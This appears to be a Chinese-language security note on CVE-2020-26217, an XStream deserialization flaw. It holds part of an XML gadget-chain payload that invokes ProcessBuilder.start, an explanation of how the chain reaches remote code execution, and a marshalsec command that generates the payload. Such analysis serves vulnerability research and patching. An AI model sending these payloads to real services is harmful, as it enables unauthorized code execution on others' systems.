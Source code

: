 ```
                  </iter>
                  <filter class='javax.imageio.ImageIO$ContainsFilter'>
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>start</name>
                  </filter>
                  <next/>
                </iterator>
                <type>KEYS</type>
              </e>
              <in class='java.io.ByteArrayInputStream'>
                <buf></buf>
                <pos>0</pos>
                <mark>0</mark>
                <count>0</count>
              </in>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>

```



https://xz.aliyun.com/t/8526

CVE-2020-26217 XStream

XStream在对map类型对象进行反序列化的时候,如果map对象内存在entry，会实例化一个空map，以及entry，再将entry put到map中，map在put entry的时候，会调用entry的hashCode函数，在之后的调用过程会调用ByteArrayOutputStreamEx的datasource的read函数，也就是SequenceInputStream.read函数，中会循环调用每个Enumeration的nextElement函数，继而去调用对应key的next函数进行迭代，而这个时候的迭代器是精心构造的FilterIterator，会调用恶意构造的ImageIO$ContainsFilter的filter方法，从而进行了反射调用，而反射的method、param和class都是ContainsFilter的成员对象，攻击者可控，从而造成了rce。

https://www.cnblogs.com/303donatello/p/13998245.html

marshalsec工具生成x m l

java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.XStream ImageIO calc